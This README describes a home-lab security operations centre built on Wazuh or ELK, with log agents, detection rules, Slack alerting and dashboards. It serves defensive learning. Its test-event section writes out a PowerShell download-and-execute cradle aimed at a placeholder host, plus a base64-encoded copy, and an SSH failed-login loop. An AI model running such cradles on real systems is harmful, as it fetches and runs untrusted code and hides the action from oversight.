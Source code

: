 # BlueTrace SOC Lab (Wazuh / ELK)

A mini-SOC you can run on your laptop or a VM. It ingests Windows + Linux logs,
fires detections (SSH brute force, suspicious PowerShell, sudo spikes), alerts to Slack/email,
and shows dashboards for triage. Includes **two tracks**:

- **Track A – Wazuh** (fastest path to SOC-style results)
- **Track B – ELK** (DIY Elasticsearch + Kibana + Logstash + Beats)

> Tip: Start with **Wazuh** first if you're brand new. Then try ELK to learn the plumbing.
> Default timezone: IST (Asia/Kolkata) — adapt to your env as needed.

---

## 0) Prereqs

- Ubuntu 22.04+ (or similar) host with Docker + Docker Compose plugin
- One Linux endpoint VM (Ubuntu/Debian) and one Windows endpoint VM
- Optional: Slack Incoming Webhook URL (for alerting), or SMTP creds

Install Docker (Ubuntu):

```bash
sudo apt-get update
sudo apt-get install -y ca-certificates curl gnupg lsb-release
sudo install -m 0755 -d /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] \
https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | \
sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-compose-plugin
sudo usermod -aG docker $USER  # logout/login after this
```

---

## 1) Track A – Wazuh (Recommended First)

### 1.1 Bring up Wazuh (single-node)
```bash
git clone https://github.com/wazuh/wazuh-docker.git
cd wazuh-docker/single-node
./generate-indexer-certs.sh
docker compose up -d
```

- Dashboard: `https://<manager-ip>:5601` (Wazuh UI)
- Manager API: `https://<manager-ip>:55000`
- Verify: `docker ps` shows `wazuh.manager`, `wazuh.indexer`, `wazuh.dashboard`

### 1.2 Install agents on endpoints

**Linux endpoint (Ubuntu/Debian):**
```bash
curl -s https://packages.wazuh.com/4.x/bash/install.sh | sudo bash
sudo /var/ossec/bin/agent-auth -m <WAZUH_MANAGER_IP>
sudo systemctl enable wazuh-agent --now
```

**Windows endpoint:**
- Download matching Wazuh Agent MSI, install, set **Manager address** to `<WAZUH_MANAGER_IP>`, start service.

**Manager – verify agents:**
```bash
docker exec -it wazuh.manager /var/ossec/bin/list_agents -c
```

### 1.3 Ensure logs exist & generate test activity

**Linux endpoint:**
```bash
sudo apt-get install -y rsyslog
sudo systemctl enable --now rsyslog
ls -lah /var/log/auth.log

# Generate test events
bash scripts/linux_generate_auth_noise.sh   # from this repo (copy to endpoint), OR run inline:
for i in {1..7}; do ssh wronguser@localhost -o PreferredAuthentications=password -o PubkeyAuthentication=no; done
sudo -k; for i in {1..6}; do sudo -l; done
```

**Windows endpoint: enable PowerShell Script Block Logging (run as Admin):**
```powershell
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -ErrorAction SilentlyContinue | Out-Null
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name EnableScriptBlockLogging -Value 1 -Type DWord

# Generate test events
powershell -NoProfile -Command "IEX (New-Object Net.WebClient).DownloadString('http://example.test/script.ps1')"
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnaAB0AHQAcAA6AC8ALwBlAHgAYQBtAHAAbABlAC4AdABlAHMAdAAvAHMALgBwAHMAMQAnACkA
```

### 1.4 Load local detection rules
Copy `wazuh/wazuh-local_rules.xml` from this repo into the **manager** at:
`/var/ossec/etc/rules/local_rules.xml` then restart:

```bash
docker cp wazuh/wazuh-local_rules.xml wazuh.manager:/var/ossec/etc/rules/local_rules.xml
docker exec -it wazuh.manager /var/ossec/bin/wazuh-control restart
docker exec -it wazuh.manager tail -f /var/ossec/logs/alerts/alerts.json
```

### 1.5 Alerting (Slack quick integration)
- Put your Slack webhook in `wazuh/ossec_integration_snippet.xml` (or edit on manager).
- Copy the script to manager & restart:

```bash
docker cp wazuh/integrations/custom-slack wazuh.manager:/var/ossec/integrations/custom-slack
docker cp wazuh/ossec_integration_snippet.xml wazuh.manager:/var/ossec/etc/shared/ossec_integration_snippet.xml
# Manually merge the snippet into /var/ossec/etc/ossec.conf under <ossec_config> if desired.
docker exec -it wazuh.manager /var/ossec/bin/wazuh-control restart
```

> Alternative: configure SMTP in `ossec.conf` for email.

### 1.6 Dashboards
Open `https://<manager-ip>:5601` and create visualizations:
- **Failed SSH over time** (filter: `Failed password`)
- **Top Source IPs (failures)** (terms on `srcip`/`source.ip` if parsed)
- **Suspicious PowerShell over time**
- **Sudo actions over time**
Save as **BlueTrace SOC – Overview**.

---

## 2) Track B – ELK (DIY)

### 2.1 Prep host kernel setting
```bash
sudo sysctl -w vm.max_map_count=262144
echo "vm.max_map_count=262144" | sudo tee -a /etc/sysctl.conf
```

### 2.2 Start stack
```bash
cd elk
docker compose up -d
# Kibana: http://<manager-ip>:5601  | Elasticsearch: http://<manager-ip>:9200
```

### 2.3 Linux endpoint → Filebeat → Logstash
On Linux endpoint:
```bash
sudo apt-get update && sudo apt-get install -y filebeat
sudo cp elk/filebeat/filebeat.yml /etc/filebeat/filebeat.yml  # edit <MANAGER_IP>
sudo filebeat modules enable system
sudo systemctl enable filebeat --now
```

### 2.4 Windows endpoint → Winlogbeat → Logstash
- Extract Winlogbeat on Windows: `C:\Program Files\Winlogbeat`
- Copy `elk/winlogbeat/winlogbeat.yml` there and edit `<MANAGER_IP>`.
- Run as Admin:
```bat
cd "C:\Program Files\Winlogbeat"
winlogbeat.exe setup
powershell -ExecutionPolicy Bypass -File .\install-service-winlogbeat.ps1
Start-Service winlogbeat
```

### 2.5 Detections (Kibana Rules)
Create three rules with KQL from `detections/kibana-kql/*`:
- **SSH brute force** → 6+ events in 5 minutes grouped by `source.ip`
- **Suspicious PowerShell** → keywords pattern
- **Linux privilege escalation** → sudo spikes

### 2.6 Dashboards
Create Data View `logs-*`, then build charts and a dashboard
(**BlueTrace SOC – Overview**).

---

## 3) Mocking (no endpoints yet?)

- Use `mocking/auth.log` & point Filebeat on the manager at `mocking/filebeat.yml`.
- Or copy/paste and run the noise scripts on endpoints.

---

## 4) Incident Documentation
Use `reports/templates/incident_template.md` for each fired alert.
Export to PDF for your portfolio.

---

## 5) Troubleshooting

- **No data**: check Filebeat/Winlogbeat services and Kibana Discover → correct index pattern.
- **Wazuh agent disconnected**: version mismatch / network; view `/var/ossec/logs/ossec.log`.
- **Elasticsearch not starting**: ensure `vm.max_map_count=262144` and enough RAM (`ES_JAVA_OPTS` in compose).
- **Rules not firing**: wrong index name in rule, or timestamps out of range (sync NTP).

---

## 6) Credits / License
MIT – use freely for learning and portfolios.

